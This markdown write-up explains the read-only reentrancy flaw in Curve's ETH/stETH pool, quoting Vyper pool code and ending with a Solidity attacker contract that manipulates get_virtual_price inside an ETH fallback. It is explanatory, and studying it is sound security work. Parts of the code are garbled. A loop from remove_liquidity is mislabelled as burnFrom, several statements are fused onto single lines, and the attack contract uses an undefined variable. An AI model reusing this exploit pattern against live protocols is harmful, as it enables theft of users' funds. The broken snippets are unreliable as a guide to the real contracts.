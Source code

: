 **[Market Attack](https://chainsecurity.com/curve-lp-oracle-manipulation-post-mortem/)**

The root cause is the inconsitency during updating balances.

While it requires some preparation, the attack vector starts in the remove_liquidity function of Curve stable swap pools (we will illustrate that with code of the ETH/stETH pool). Note that the Curve pool protects itself from reentrancy by using the Vyper-native reentrancy guards which were placed on every state-altering function.

```
@external
@nonreentrant('lock')
def remove_liquidity()
...
amounts: uint256[N_COINS] = self._balances()
lp_token: address = self.lp_token
total_supply: uint256 = ERC20(lp_token).totalSupply()
...
```
where the balances are the current balances held with some admin fees deducted.
```
@view
@internal
def _balances(_value: uint256 = 0) -> uint256[N_COINS]:
    return [
        self.balance - self.admin_balances[0] - _value,
        ERC20(self.coins[1]).balanceOf(self) - self.admin_balances[1]
    ]
 ```
 Next, the tokens are burned and hence the supply is decreased.
 
 `CurveToken(lp_token).burnFrom(msg.sender, _amount)`
 
 The LP token contract’s burnFrom function is a standard burning function that decreases the balance of the user and the total supply according to the amount of LP tokens burned by the user. Last, the underlying tokens are returned to the user.
 
 ```
 def burnFrom(msg.sender, _amount): 
   for i in range(N_COINS):
          value: uint256 = amounts[i] * _amount / total_supply
          assert value >= _min_amounts[i], "Withdrawal resulted in fewer coins than expected"amounts[i] = value
          if i == 0:
              raw_call(msg.sender, b"", value=value)
          else:
              assert ERC20(self.coins[1]).transfer(msg.sender, value)log RemoveLiquidity(msg.sender, amounts, empty(uint256[N_COINS]), total_supply - _amount)return amounts 

```
Per underlying, the share of the burned LP tokens is computed, checked against slippage, and sent out. At this point, the function interacts with non-Curve contracts which creates the danger of losing control of the execution. If an underlying token is ETH, native ETH is sent out which, if the recipient is a contract, triggers the recipient’s fallback function.

`raw_call(msg.sender, b"", value=value)`

During the execution of the fallback, not all tokens have been sent (balances not fully updated) while the total supply of the LP token has already decreased. Hence, an attacker can take control of the execution flow while the pool’s state is inconsistent. Pool balances and total supply do not match. Note that the function remove_liquidity_imbalance is similar to remove_liquidity but allows users to withdraw liquidity in an imbalanced way. Hence, if an imbalanced withdrawal taking just 1 wei of ETH is made, the balance will be significantly higher than with the regular remove_liquidity. Hence, the inconistency can be amplified.

That is when and why get_virtual_price becomes vulnerable.

```
@view
@external
def get_virtual_price() -> uint256:
    """
    @notice The current virtual price of the pool LP token
    @dev Useful for calculating profits
    @return LP token virtual price normalized to 1e18
    """
    D: uint256 = self.get_D(self._balances(), self._A())
    # D is in the units similar to DAI (e.g. converted to precision 1e18)
    # When balanced, D = n * x_u - total virtual value of the portfolio
    token_supply: uint256 = ERC20(self.lp_token).totalSupply()
    return D * PRECISION / token_supply
  ```
  Protocols integrating with get_virtual_price were trusting the return value blindly. Typically, its return value was used to estimate a lower bound for the LP’s value by multiplying it with the lowest exchange rate of the underlying tokens.
  ```
  // sample code
uint256 lowestPrice = type(uint256).max;
for (uint256 i = 0; i < N_COINS; i++) {
    price = oracle.price(pool.coins(i));
    lowestPrice = price < lowestPrice ? price : lowestPrice;
}
value = lowestPrice * pool.get_virtual_price() / 10**18;
```
Attack flow: 
1. Deposit large amounts of liquidity.
2. Remove liquidity.
3. During the callback perform malicious actions.
4. Profit.

This process can be implemented as a smart contract as below. Note that the snippet implements the weaker but simpler version using remove_liqudity instead of remove_liquidity_imbalance. For some projects, however, some optimization can be performed.

```
// pool is assumed to be an ETH pool with just one other token (e.g. stETH pool)
function exec(uint amountToken, uint percentRedeem) public payable {
    // prepare token
    token.transferFrom(msg.sender, address(this), amountToken);
    token.approve(address(pool), amountToken);    // add liquidity
    uint[2] memory amounts = [msg.value, amountToken];
    uint lps = pool.add_liquidity{value : msg.value}(amounts, 0);
    uint lps_redeem = lps * percent / 100;    // remove liqudity
    uint[2] memory zeros = [uint(0), 0];
    pool.remove_liquidity(lps_redeem, zeros);    // virtual price dropped
}fallback() external payable {
    // price of LP is pumped right now
    // malicious actions, use the remaining balance of lps if needed ...
}
```
We do not provide deploy link, because the vulnerable source code is inn vyper, not solidity 

